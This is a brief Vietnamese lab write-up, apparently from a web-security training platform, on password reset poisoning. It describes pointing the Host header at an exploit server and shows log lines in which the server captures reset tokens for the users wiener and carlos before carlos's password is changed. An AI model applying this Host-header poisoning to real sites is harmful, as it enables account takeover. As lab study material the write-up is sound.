



# Lab: Basic password reset poisoning

Đổi Host thành expoit server cho tính năng forget password cho user wiener, thấy url được gửi về mail là exploit server:


Sau khi click, log của exploit server có dạng:
```
123.24.155.80   2026-05-11 15:09:01 +0000 "GET /forgot-password?temp-forgot-password-token=036wf60qf6w1khfcvcndgqxlouzqh050 HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/147.0.0.0 Safari/537.36"
```

-> Log có thể thu được temp-forgot-password-token

Thử lại với user carlos, thu được:
```
10.0.3.123      2026-05-11 15:09:16 +0000 "GET /forgot-password?temp-forgot-password-token=pqcg1k6dapyvs5lmhda0x7lu3kz9jzdx HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

Gửi POST request để đổi mật khẩu của carlos:


Login với user carlos và mật khẩu mới:
